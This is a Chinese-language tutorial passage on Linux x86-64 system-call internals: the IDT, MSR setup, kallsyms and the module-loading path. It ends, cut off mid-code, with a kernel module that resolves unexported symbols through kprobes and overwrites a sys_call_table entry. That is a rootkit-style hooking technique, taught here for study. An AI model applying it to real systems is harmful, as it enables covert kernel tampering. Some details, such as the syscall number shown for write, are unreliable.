


# 系统调用解密

一段程序的运行，需要使用各种计算机资源，比如处理器核心、内存、输入/输出设备等等，假如任何程序都可以对这些物理资源进行随意的使用，那么计算机运行期的不可控性会大大增大。

为了避免资源的滥用，操作系统引入特权级别这一概念，它将计算机中的不同物种按照“种姓”划分，种姓越高可以操作的资源也就越多。特权级别一般由硬件厂商提供支持，对于操作系统而言，它显然没有必要在指令集提供权限管理支持的情况下，自己再定义一套权限管理机制。

在现代计算机中，操作系统会将计算机世界分成用户态和内核态两大空间，内核空间握有最高权限，可以完全掌控物理资源及核心数据，而用户空间权限则相对较低，它没有直接操作物理资源的资格。

当然用户空间想要访问高特权资源也不是不行，但需要提出申请，提出申请的操作用计算机专业术语描述的话就是系统调用，当用户空间发出系统调用后，内核就会进行相应，然后由内核完成指定的操作（系统调用是中断的一种，内核之所以能响应系统调用就是中断机制提供的帮助，关于中断在此不会有过多的描述）。

## 内核对系统调用的支持

用户空间会有各种各样的需求，内核会尽可能的提供支持，内核定义了一套协议，它要求系统调用的发起方提供一个系统调用号，对于内核自身而言，它会实现一个系统调用表`sys_call_table`，内核会以系统调用号作为索引值，对系统调用表进行检索，并执行检索到的功能。

```
这里给出了x64架构下的系统调用表的定义：
const sys_call_ptr_t sys_call_table[] ____cacheline_aligned = {
#include <asm/syscalls_64.h>
};

syscalls_64.h中的内容：
__SYSCALL(0, sys_read)
......
__SYSCALL(450, sys_set_mempolicy_home_node)
```

## 系统调用号的查找

在Linux中，一般会将函数、数据及常量的声明相关的头文件放在`/usr/include/`目录下，该目录是系统自带的，初始内容是内核提供的，由于它是Linux默认的头文件查找路径，所以后续其他程序也可以向该目录添加头文件，常见的就要各类型的动态链接库开发包。

```
在内核目录下查看编译内核的帮助选项：
make help | grep header
  headers_install - Install sanitised kernel headers to INSTALL_HDR_PATH
  includecheck    - Check for duplicate included header files
  headerdep       - Detect inclusion cycles in headers
```

由于`/usr/include/`目录包含了内核信息，所以查找系统调用号时，可以根据该目录进行查找，系统调用号相关的定义一般放在`*unistd*.h`文件内，检索该文件就可以快速的获取系统调用号。

```
grep -w "__NR_write" /usr/include/asm/unistd_64.h
#define __NR_write 4
```

除此之外，也可以借助某些应用程序或某些应用程序源代码的帮助。在Linux部分发行版的仓库中有一个叫做`ausyscall`的程序，它包含在`auditd`包内，通过该程序可以将系统调用号打印出来。而某些应用程序源代码则是那些提供系统级辅助的程序，比如`strace`、`glibc`等等，它们的源代码中会包含系统调用表。

## 系统调用表的提交

从上面可以了解到，系统调用由中断机制机制支持，而中断是处理器提供硬件支持的机制，因此操作系统一定会将系统调用表提交给CPU。

Linux内核的启动时第一个运行的函数（不算汇编代码）`start_kernel`，它肩负起了一个很重要的任务就是初始化各种信息。

从软硬件的角度来看，中断可以分成硬件中断和软件中断（陷阱）两类，顾名思义，硬件中断是硬件向CPU发出的中断信号（APIC或与处理器相连的中断引脚），而陷阱则是软件向CPU发出的中断信号（指令集提供的中断指令）。

系统调用作为内核功能，显然属于陷阱。从`start_kernel`中可以快速的找到`trap_init`的身影，接下来让我们看看它都做了什么（这些代码都是于处理器相关的，不同处理器并不适用，所以内核代码中建立一个`arch`目录，里面存放着各种指令集架构的信息处理代码）。

```
asmlinkage __visible void __init __no_sanitize_address start_kernel(void)
{
	......
	trap_init();
	......
}
```

### 与64位无关的IDT

`trap_init`内部与陷阱不强相关的内容暂且忽略，`idt_setup_traps`函数内部会初始化中断描述符表，要知道软件中断的类别非常之多，CPU如何根据指定中断信号执行对应的操作呢？答案当然还是查表，这个表就是`idt_table`中断描述符表，`idt_setup_traps`函数会根据`def_idts`数组的内容对IDT进行填充。

在`def_idts`中可以看到除法错误、非屏蔽中断等中断信号的身影，它们对应着不同的异常事件。

```
void __init trap_init(void)
{
	/* Init cpu_entry_area before IST entries are set up */
	setup_cpu_entry_areas();

	/* Init GHCB memory pages when running as an SEV-ES guest */
	sev_es_init_vc_handling();

	/* Initialize TSS before setting up traps so ISTs work */
	cpu_init_exception_handling();
	/* Setup traps as cpu_init() might #GP */
	idt_setup_traps();
	cpu_init();
}

void __init idt_setup_traps(void)
{
	idt_setup_from_table(idt_table, def_idts, ARRAY_SIZE(def_idts), true);
}

static const __initconst struct idt_data def_idts[] = {
	INTG(X86_TRAP_DE,		asm_exc_divide_error),
	ISTG(X86_TRAP_NMI,		asm_exc_nmi, IST_INDEX_NMI),
	......
	SYSG(X86_TRAP_OF,		asm_exc_overflow),
#if defined(CONFIG_IA32_EMULATION)
	SYSG(IA32_SYSCALL_VECTOR,	asm_int80_emulation),
#elif defined(CONFIG_X86_32)
	SYSG(IA32_SYSCALL_VECTOR,	entry_INT80_32),
#endif
}
```

`idt_table`中的元素由`gate_struct`结构体进行描述，其中`segment`和`offset_low`组合形成中断向量号，`offset_low`、`offset_middle`、`offset_high`组合形成中断向量对应的处理函数，而`bits`用于中断向量的属性。

```
struct gate_struct {
	u16		offset_low;
	u16		segment;
	struct idt_bits	bits;
	u16		offset_middle;
#ifdef CONFIG_X86_64
	u32		offset_high;
	u32		reserved;
#endif
} __attribute__((packed));

typedef struct gate_struct gate_desc;
static gate_desc idt_table[IDT_ENTRIES] __page_aligned_bss;
```

从`def_idts`内可以看到，64位系统下的系统调用不会交给IDT进行处理，只会处理32位程序的`int80`，那CPU从哪里知道系统调用的信息呢？

此处单独处理x64下的系统调用是为了实现快速系统调用，系统调用被大量且经常性的使用，如果系统调用速度较慢，那么这显然是一笔不小的开销，所以并没将x64下的系统调用交给IDT进行处理，而是给提供一个单独的寄存器进行保存。显然上学时住6人间集体宿舍与住单人单间的豪华宿舍相比知晓，是由显著差别的。

### 系统调用的初始化

在IDT完成设置后，紧接着会调用`cpu_init`函数，该函数的内部是真正初始化系统调用的地方，`syscall_init`就是关键函数。

```
void cpu_init(void)
{
	......
	if (IS_ENABLED(CONFIG_X86_64)) {
		loadsegment(fs, 0);
		memset(cur->thread.tls_array, 0, GDT_ENTRY_TLS_ENTRIES * 8);
		syscall_init();

		wrmsrl(MSR_FS_BASE, 0);
		wrmsrl(MSR_KERNEL_GS_BASE, 0);
		barrier();

		x2apic_setup();
	}
	......
}
```

在`syscall_init`函数的内部可以频繁的看到`wrmsr`的身影，即的全称是`Write to Model Specific Register`，即写模型特定寄存器，该寄存器是为了控制CPU运行及功能、调试、追踪程序执行、监测CPU性能等方面而存在的。

`CONFIG_IA32_EMULATION`是为了兼容32位而存在的，这里面的设置我们暂时忽略它。

```
#define GDT_ENTRY_KERNEL_CS		2
#define GDT_ENTRY_DEFAULT_USER32_CS	4
#define __KERNEL_CS			(GDT_ENTRY_KERNEL_CS*8)
#define __USER32_CS			(GDT_ENTRY_DEFAULT_USER32_CS*8 + 3)

void syscall_init(void)
{
	wrmsr(MSR_STAR, 0, (__USER32_CS << 16) | __KERNEL_CS);
	wrmsrl(MSR_LSTAR, (unsigned long)entry_SYSCALL_64);

#ifdef CONFIG_IA32_EMULATION
	wrmsrl_cstar((unsigned long)entry_SYSCALL_compat);
	/*
	 * This only works on Intel CPUs.
	 * On AMD CPUs these MSRs are 32-bit, CPU truncates MSR_IA32_SYSENTER_EIP.
	 * This does not cause SYSENTER to jump to the wrong location, because
	 * AMD doesn't allow SYSENTER in long mode (either 32- or 64-bit).
	 */
	wrmsrl_safe(MSR_IA32_SYSENTER_CS, (u64)__KERNEL_CS);
	wrmsrl_safe(MSR_IA32_SYSENTER_ESP,
		    (unsigned long)(cpu_entry_stack(smp_processor_id()) + 1));
	wrmsrl_safe(MSR_IA32_SYSENTER_EIP, (u64)entry_SYSENTER_compat);
#else
	wrmsrl_cstar((unsigned long)ignore_sysret);
	wrmsrl_safe(MSR_IA32_SYSENTER_CS, (u64)GDT_ENTRY_INVALID_SEG);
	wrmsrl_safe(MSR_IA32_SYSENTER_ESP, 0ULL);
	wrmsrl_safe(MSR_IA32_SYSENTER_EIP, 0ULL);
#endif

	/*
	 * Flags to clear on syscall; clear as much as possible
	 * to minimize user space-kernel interference.
	 */
	wrmsrl(MSR_SYSCALL_MASK,
	       X86_EFLAGS_CF|X86_EFLAGS_PF|X86_EFLAGS_AF|
	       X86_EFLAGS_ZF|X86_EFLAGS_SF|X86_EFLAGS_TF|
	       X86_EFLAGS_IF|X86_EFLAGS_DF|X86_EFLAGS_OF|
	       X86_EFLAGS_IOPL|X86_EFLAGS_NT|X86_EFLAGS_RF|
	       X86_EFLAGS_AC|X86_EFLAGS_ID);
}
```

不然知道MSR寄存器支持的功能非常之多，通过查阅英特尔芯片手册（MSR和软件设计卷2B）可以知道`STAR`、`LSTAR`、`CSTAR`及`FMASK`是与系统调用相关的寄存器。

其中`LSTAR`是专门给64位使用的。

MSR卷：



软件设计手册-2B卷：



从上面的代码中可以看到，`system_init`主要设置的寄存器就是`STAR`、`LSTAR`及`FMASK`。通过手册可以知道，`FMASK`用于指明系统调用的标志位属性，一般都是最后设置，`STAR`为CS代码段寄存器和SS栈寄存器提供内容，主要的作用是区分内核态与用户态的特权级别，`LSTAR`则直接执行64位系统下的系统调用处理函数的地址，64位下指定的处理函数为`entry_SYSCALL_64`。

假如在驱动中通过`rdmsrl`读取内容，就会可以发现`LSTAR`寄存器中保存的就是函数`entry_SYSCALL_64`的地址。

```
驱动内的读取代码：
rdmsrl(MSR_STAR, msr_star_val);
rdmsrl(MSR_LSTAR, msr_lstar_val);
printk(KERN_INFO "MSR_STAR: 0x%lx, MSR_LSTAR: 0x%lx\n", msr_star_val, msr_lstar_val);

打印内容：
[ 4111.014695] MSR_STAR: 0x23001000000000, MSR_LSTAR: 0xffffffffa320008

与地址匹配的符号：
sudo cat /proc/kallsyms | grep a3200080
ffffffffa3200080 T entry_SYSCALL_64
```

## 系统调用的自定义

首先我们已经知道了内核会根据系统调用号查找系统调用表，然后在运行时系统调用表会被加载到内存当中，此时只要获取系统调用表的起始地址，然后将表中某元素替换成我们自己定义处理函数，就可以实现系统调用的掉包了。

### 系统调用表地址的确定

在Linux内核当中，经常可以看到某个函数或全局变量使用了`EXPORT_SYMBOL`宏及 `EXPORT_SYMBOL_GPL`宏的身影，它们的作用是将符号导出到符号命令空间中，使得被导出的符号可以被其余模块访问（比如动态加载的内核驱动）。

该宏首先会将类型为`typeof(xxx)`的符号声明为全局变量，随后会通过编译器的`.section`伪指令指定`__ksymtab_strings`节，接着存放`__kstrtab_##sym[]`和`__kstrtabns_##sym[]`两个数组的地址，数组内部分别存储符号名及命名空间名。

```
#define EXPORT_SYMBOL(sym)		_EXPORT_SYMBOL(sym, "")

#define _EXPORT_SYMBOL(sym, sec)	__EXPORT_SYMBOL(sym, sec, "")

#define ___EXPORT_SYMBOL(sym, sec, ns)						\
	extern typeof(sym) sym;							\
	extern const char __kstrtab_##sym[];					\
	extern const char __kstrtabns_##sym[];					\
	asm("	.section \"__ksymtab_strings\",\"aMS\",%progbits,1	\n"	\
	    "__kstrtab_" #sym ":					\n"	\
	    "	.asciz 	\"" #sym "\"					\n"	\
	    "__kstrtabns_" #sym ":					\n"	\
	    "	.asciz 	\"" ns "\"					\n"	\
	    "	.previous						\n");	\
	__KSYMTAB_ENTRY(sym, sec)
```

通过readelf和objdump工具可以方便的看到该节的信息。

```
readelf -S ./vmlinux | grep __k
  [11] __ksymtab         PROGBITS         ffffffff8280c690  01a0c690
  [12] .rela__ksymtab    RELA             0000000000000000  14dd2768
  [13] __ksymtab_gpl     PROGBITS         ffffffff8281dc58  01a1dc58
  [14] .rela__ksymt[...] RELA             0000000000000000  14e3a478
  [15] __ksymtab_strings PROGBITS         ffffffff82830a5c  01a30a5c

objdump --section=__ksymtab_strings -s ./vmlinux | more
./vmlinux:     file format elf64-x86-64
Contents of section __ksymtab_strings:
 ffffffff82830a5c 70687973 5f626173 6500656d 7074795f  phys_base.empty_
 ffffffff82830a6c 7a65726f 5f706167 65007067 6469725f  zero_page.pgdir_
 ffffffff82830a7c 73686966 74007074 72735f70 65725f70  shift.ptrs_per_p
 ffffffff82830a8c 34640070 6167655f 6f666673 65745f62  4d.page_offset_b
 ffffffff82830a9c 61736500 766d616c 6c6f635f 62617365  ase.vmalloc_base
 ffffffff82830aac 00766d65 6d6d6170 5f626173 65007374  .vmemmap_base.st
 ffffffff82830abc 61746963 5f6b6579 5f696e69 7469616c  atic_key_initial
 ffffffff82830acc 697a6564 00726573 65745f64 65766963  ized.reset_devic
 ffffffff82830adc 6573006c 6f6f7073 5f706572 5f6a6966  es.loops_per_jif
```

在该宏的结尾处会通过宏`__KSYMTAB_ENTRY`将外部符号信息放入`__ksymtab`节内，节中信息包含外部符号的地址、存储外部符号名的数组地址以及存储命令空间名的数组地址。

借助`__ksymtab`节的帮助，内核外的模块就可以知道被导出符号的信息了。

```
#define __KSYMTAB_ENTRY(sym, sec)					\
	static const struct kernel_symbol __ksymtab_##sym		\
	__attribute__((section("___ksymtab" sec "+" #sym), used))	\
	__aligned(sizeof(void *))					\
	= { (unsigned long)&sym, __kstrtab_##sym, __kstrtabns_##sym }

objdump --section=__ksymtab -s ./vmlinux | more
./vmlinux:     file format elf64-x86-64
Contents of section __ksymtab:
 ffffffff8280c690 106486fe 10550200 7b820400 34c9cffe  .d...U..{...4...
 ffffffff8280c6a0 ce510300 6f820400 c864d9fe 828a0300  .Q..o....d......
 ffffffff8280c6b0 63820400 ec64d9fe 8b8a0300 57820400  c....d......W...
 ffffffff8280c6c0 8064d9fe 588a0300 4b820400 f434d9fe  .d..X...K....4..
 ffffffff8280c6d0 a38a0300 3f820400 286ed9fe e28a0300  ....?...(n......
 ffffffff8280c6e0 33820400 ac8cd9fe 1b8b0300 27820400  3...........'...
 ffffffff8280c6f0 708cd9fe 4a8b0300 1b820400 a465d9fe  p...J........e..
 ffffffff8280c700 8e8a0300 0f820400 a87fd9fe da8a0300  ................
 ffffffff8280c710 03820400 6c69d9fe 8a8a0300 f7810400  ....li..........
```

想要获取系统调用表的地址，可以选择将`sys_call_table`导出，但是内核为了安全考虑一般不会将它导出，除非自己修改内核。

修改内核难免会有些麻烦，编译替换后还需要重启，并不是很方便，有没有什么办法在运行期就获取内核符号的地址呢？

当然是有的！首先在内核编译时，会产生一个`System.map`表，该表中会记录函数及全局变量的偏移值，如果你知道内核在运行期的基地址就可以确认它们在运行期的地址。

```
System.map:
0000000000000000 D __per_cpu_start
0000000000000000 D fixed_percpu_data
00000000000001ea A kexec_control_code_size
0000000000001000 D cpu_debug_store
0000000000002000 D irq_stack_backing_store
0000000000006000 D cpu_tss_rw
000000000000b000 D gdt_page
000000000000c000 d exception_stacks
0000000000018000 d entry_stack_storage
0000000000019000 D espfix_waddr
```

除了保存偏移值的符号表外，Linux内核提供`kallsyms`机制，它也保存着一张符号表，不过这个符号表是在运行期生成的，所以查看该表就可以直接获取对应符号在运行期的地址。它相较于`System.map`有两个好处，一是对运行期地址的直接获取，二是`System.map`是编译内核时产生的，只包含内核自身的符号信息，而`kallsyms`机制则提供运行期动态加载的内核模块信息。

`kallsyms`机制依赖编译选项`CONFIG_KALLSYMS`，只有该选项开启时该功能才会打开。

```
Makefile内容：
obj-$(CONFIG_KALLSYMS) += kallsyms.o
```

为了方便用户空间访问，`kallsyms`会在初始化时向`proc`注册`kallsyms`虚文件，可以通过访问该文件获取地址信息。

```
static int __init kallsyms_init(void)
{
	proc_create("kallsyms", 0444, NULL, &kallsyms_proc_ops);
	return 0;
}
device_initcall(kallsyms_init);

sudo cat /proc/kallsyms | grep sys_call_table
ffffffffb7e017e0 D sys_call_table
```

假如想要通过编译内核驱动的方式对符号地址进行获取，就需要借助`kallsyms`提供的接口，在`kallsyms`当中存在`kallsyms_lookup_name`函数，该函数的作用是根据指定符号名称查找地址。

但是实际使用`kallsyms_lookup_name`会遇到一个问题，那就是驱动无法使用未定义的符号`kallsyms_lookup_name`，显然这个符号并没有被导出，不能被外部模块使用。

```
ERROR: modpost: "kallsyms_lookup_name" undefined!
```

通过查看内核源代码可以知道`kallsyms`内查找符号信息的相关接口均没有导出，进一步查阅资料后发现，只有Linux内核`5.7.0`之前的版本才会将它们导出。

为了直接通过编译驱动的方式获取系统调用表的地址，借助`kallsyms_lookup_name`接口的帮助已经是相当方便且通用的方法了，有没有什么办法可以获取未导出符号呢？

这当然也有！要知道在Linux内核当中，默认的调试机制就是依赖`printk`进行打印，这种静态的调试机制有一种坏处，就是每次新添加调试信息，都需要重新编译内核或内核模块。

但现如今，随着Linux内核的更新，Linux内核支持一种类似于调试器的调试机制，调试器的核心特性就是可以随时查看系统状态，调试器想要观察某函数的执行过程时或变量状态时，首先要做的就是设置断点或观察点。Linux内核支持的新调试机制也与之类似，它支持动态的向被调试目标插入探测点，当被调试目标执行时，会调用调试者自定义的函数对信息进行收集，实现该机制的技术被称作是`kprobes`。

既然该机制如此强大，那相比获取一个符号的地址也是轻而易举吧！通过查看`kprobes`的注册函数`register_kprobe`，可以知道在注册函数的起始位置，它就会根据指定的符号名获取符号地址，这正是我们想要的结果。

```
struct kprobe {
	......
	kprobe_opcode_t *addr;
	......
}

int register_kprobe(struct kprobe *p)
{
	int ret;
	struct kprobe *old_p;
	struct module *probed_mod;
	kprobe_opcode_t *addr;
	bool on_func_entry;

	/* Adjust probe address from symbol */
	addr = _kprobe_addr(p->addr, p->symbol_name, p->offset, &on_func_entry);
	if (IS_ERR(addr))
		return PTR_ERR(addr);
	p->addr = addr;
	......
}
```

借助`kprobes`技术，我们不止可以获取`kallsyms_lookup_name`函数的地址，也可以获取`sys_call_table`数组的地址，从实用性的角度上考虑，获取`kallsyms_lookup_name`函数是更加好的方案，因为这里我们只需要地址，并不需要使用`kprobes`技术提供的其他功能。

```
#ifdef KALLSYMS_EXIST
#define LDE_KLN_PTR				kallsyms_lookup_name
#else
typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
extern kallsyms_lookup_name_t kallsyms_lookup_name_ptr;
#define LDE_KLN_PTR				kallsyms_lookup_name_ptr
#endif

struct kprobe kp_info = {
	.symbol_name = "kallsyms_lookup_name",
};

unsigned int* lde_sym_addr_get_by_kprobes(struct kprobe* kp_info)
{
	int ret;
	unsigned int* sym_addr;

	ret = register_kprobe(kp_info);
	printk(KERN_INFO "find symbols by [kprobe], %s at 0x%px, ret: %d\n",
		kp_info->symbol_name, kp_info->addr, ret);
	sym_addr = (unsigned int*)kp_info->addr;
	unregister_kprobe(kp_info);

	return sym_addr;
}
```

### kallsyms的辅助调试介绍 - 以调试内核驱动加载过程为例

前面介绍`kallsyms`时讲过，它是一张运行期实时更新的符号表，包含了内核自身及内核模块的符号信息，它对调试起到了非常大的帮助作用，比如`printk`中根据地址打印符号`%pS`就是从`kallsyms`内匹配到的符号。

除此之外，在调试过程中我们经常都需要`k`（WinDBG的查看栈回溯命令）一下或`bt`（GDB的查看栈回溯命令）一下，函数的执行流程可以非常有效的帮助我们了解事情发生的经过如何。在Linux内核当中，也存在着这样的功能，它通过`dump_stack`函数实现，该函数是直接导出的。

`dump_stack`函数是Linux内核中常用的调试手段，Linux内核让人闻风丧胆的Panic，就会借助它打印栈回溯信息，有些时候不方便编译但有注入错误的机会时，就可以通过Panic机制将栈回溯等信息打印处理。

```
dump_stack();
```

下面展示了在内核模块初始化函数内，添加`dump_stack`函数后，内核消息`dmesg`中出现的内容。

从下面的信息中，可以看到，目前3号CPU正在执行`insmod`加载驱动命令，其进程号是10350，紧接着的就是栈回溯信息，以及最后的寄存器信息。

```
驱动初始化函数：
static int lde_init(void)
{
	int ret;

	dump_stack();
	......
}

打印内容：
[11099.820920] CPU: 3 PID: 10350 Comm: insmod Tainted: G           OE      6.10.0-rc4-1-MANJARO #1 f7368423391ba319e025a5cc797bf93758bea2ec
[11099.820926] Hardware name: innotek GmbH VirtualBox/VirtualBox, BIOS VirtualBox 12/01/2006
[11099.820928] Call Trace:
[11099.820931]  <TASK>
[11099.820933]  dump_stack_lvl+0x5d/0x80
[11099.820942]  ? __pfx_lde_init+0x10/0x10 [lde 30cc83630c557832aefc44ccc2d208bae0a6e584]
[11099.820947]  lde_init+0xf/0x50 [lde 30cc83630c557832aefc44ccc2d208bae0a6e584]
[11099.820951]  ? __pfx_lde_init+0x10/0x10 [lde 30cc83630c557832aefc44ccc2d208bae0a6e584]
[11099.820955]  do_one_initcall+0x5b/0x310
[11099.820963]  do_init_module+0x60/0x220
[11099.820968]  init_module_from_file+0x89/0xe0
[11099.820974]  idempotent_init_module+0x121/0x2b0
[11099.820980]  __x64_sys_finit_module+0x5e/0xb0
[11099.820984]  do_syscall_64+0x82/0x160
[11099.820986]  ? count_memcg_events.constprop.0+0x1a/0x30
[11099.820990]  ? srso_alias_return_thunk+0x5/0xfbef5
[11099.820994]  ? handle_mm_fault+0x1f0/0x300
[11099.820999]  ? srso_alias_return_thunk+0x5/0xfbef5
[11099.821001]  ? do_user_addr_fault+0x36c/0x620
[11099.821006]  ? srso_alias_return_thunk+0x5/0xfbef5
[11099.821009]  ? srso_alias_return_thunk+0x5/0xfbef5
[11099.821013]  entry_SYSCALL_64_after_hwframe+0x76/0x7e
[11099.821016] RIP: 0033:0x77f621927e9d
[11099.821033] Code: ff c3 66 2e 0f 1f 84 00 00 00 00 00 90 f3 0f 1e fa 48 89 f8 48 89 f7 48 89 d6 48 89 ca 4d 89 c2 4d 89 c8 4c 8b 4c 24 08 0f 05 <48> 3d 01 f0 ff ff 73 01 c3 48 8b 0d 63 de 0c 00 f7 d8 64 89 01 48
[11099.821035] RSP: 002b:00007ffff7b78798 EFLAGS: 00000246 ORIG_RAX: 0000000000000139
[11099.821039] RAX: ffffffffffffffda RBX: 00005e45d05d2740 RCX: 000077f621927e9d
[11099.821041] RDX: 0000000000000000 RSI: 00005e45b8ae7478 RDI: 0000000000000003
[11099.821043] RBP: 00005e45b8ae7478 R08: 000077f6219f6b20 R09: 0000000000004100
[11099.821044] R10: 00005e45d05d2890 R11: 0000000000000246 R12: 0000000000000000
[11099.821046] R13: 00005e45d05d2700 R14: 00007ffff7b789e8 R15: 00005e45d05d2850
[11099.821052]  </TASK>
[11099.821053] starting from 0xffffffffc0b9e090 ...
```

从栈回溯信息上看，起始位置是`entry_SYSCALL_64_after_hwframe`，它位于
`entry_SYSCALL_64`函数内部（这也是`MSR LSTAR`寄存器指向的地方），作为全局符号存在，是`entry_SYSCALL_64`函数开始执行代码的标号。

```
entry_SYSCALL_64：
SYM_CODE_START(entry_SYSCALL_64):
......
SYM_INNER_LABEL(entry_SYSCALL_64_after_hwframe, SYM_L_GLOBAL)
......
```

在此之后会进行一系列的安全检查，这些AMD处理器新添加的安全机制。完成安全检查后，`entry_SYSCALL_64`就会正式开始调用`do_syscall_64`函数，这也标志着系统调用的正式开始。

```
entry_SYSCALL_64：
call	do_syscall_64
```

#### 无效的系统调用表？

`do_syscall_64`函数最终会调用`x64_sys_call`函数，该函数的内部会根据系统调用号匹配对应的处理函数。不过这里一看，`switch`用的也不是系统调用表啊！难道系统调用表已经被弃用了？

可是所有的文章都说用的系统调用表啊！难道它们都错了，那就让我们看看接下来掉包系统调用表会发生什么吧！

```
long x64_sys_call(const struct pt_regs *regs, unsigned int nr)
{
	switch (nr) {
	#include <asm/syscalls_64.h>
	default: return __x64_sys_ni_syscall(regs);
	}
};

static __always_inline bool do_syscall_x64(struct pt_regs *regs, int nr)
{
	/*
	 * Convert negative numbers to very high and thus out of range
	 * numbers for comparisons.
	 */
	unsigned int unr = nr;

	if (likely(unr < NR_syscalls)) {
		unr = array_index_nospec(unr, NR_syscalls);
		regs->ax = x64_sys_call(regs, unr);
		return true;
	}
	return false;
}

__visible noinstr void do_syscall_64(struct pt_regs *regs, int nr)
{
	add_random_kstack_offset();
	nr = syscall_enter_from_user_mode(regs, nr);

	instrumentation_begin();

	if (!do_syscall_x64(regs, nr) && !do_syscall_x32(regs, nr) && nr != -1) {
		/* Invalid system call, but still a system call. */
		regs->ax = __x64_sys_ni_syscall(regs);
	}

	instrumentation_end();
	syscall_exit_to_user_mode(regs);
}
```

由于目前使用的是`insmod`命令加载驱动，所以根据系统调用号`__NR_finit_module`匹配到了`__x64_sys_finit_module`，该函数的作用是根据驱动文件的文件描述符加载驱动。

```
6.1内核：
SYSCALL_DEFINE3(finit_module, int, fd, const char __user *, uargs, int, flags)
{
	......
	len = kernel_read_file_from_fd(fd, 0, &buf, INT_MAX, NULL,
				       READING_MODULE);
	if (len < 0)
		return len;
	......
	return load_module(&info, uargs, flags);
}

6.10内核：
SYSCALL_DEFINE3(finit_module, int, fd, const char __user *, uargs, int, flags)
{
	......
	err = idempotent_init_module(f.file, uargs, flags);
	fdput(f);
	return err;
}
```

由于目前使用使用的内核版本是6.10，所以会先通过`idempotent_init_module`函数校验Cookie，如果可以匹配到Cookie，那么才会通过`init_module_from_file`函数读取驱动文件后进行加载，加载驱动的函数就是`load_module`了。

在版本小于6.8的内核中，`finit_module`会直接调用`load_module`对驱动进行加载，Cookie校验机制是6.8内核后新添加的安全机制。

在完成`do_init_module`函数的任务后，就会正式通过`do_one_initcall`调用驱动的初始化函数，我们知道Linux当中驱动的初始化函数都具有统一的入口即`module_init(xx)`，而`module_init`最终会返回`xx`的函数指针，就是下面的`fn()`，`do_one_initcall`会通过函数指针对初始化函数进行调用。

```
int __init_or_module do_one_initcall(initcall_t fn)
{
	......
	ret = fn();
	......
}
```

此时驱动就已经完成了加载。

### 系统调用表的掉包

经过上面的分析，我们已经可以知道如果获取内核符号的地址以及系统调用的处理流程，那么此时我们就可以先获取系统调用表的地址，在根据指定的系统调用号，对表中的处理函数进行掉包，进而完成系统调用的自定义。

```
#define SYSCALL_SWAP_ID		__NR_perf_event_open

static int lde_my_syscall(void)
{
	dump_stack();
	printk(KERN_INFO "enter %s\n", __func__);

	return 0;
}

void lde_syscall_hack(void)
{
	dump_stack();
	printk(KERN_INFO "will swap syscall\n");

	sys_call_table = (unsigned long*)LDE_KLN_PTR("sys_call_table");
	if (!sys_call_table) {
		printk(KERN_ERR "unable to find symbol by [kallsyms_lookup_name], will exit ...\n");
		return;
	}
	else {
		printk(KERN_INFO "find symbol at 0x%px\n", sys_call_table);
	}

	syscall_orig = (int(*)(void))(sys_call_table[SYSCALL_SWAP_ID]);
	printk(KERN_INFO "current sys_call_table[%d], [%px %pS]\n",
		SYSCALL_SWAP_ID, (int*)sys_call_table[SYSCALL_SWAP_ID], (int*)sys_call_table[SYSCALL_SWAP_ID]);
	sys_call_table[SYSCALL_SWAP_ID] = (unsigned long)&lde_my_syscall;
	printk(KERN_INFO "current sys_call_table[%d] (after swap), [%px %pS]\n",
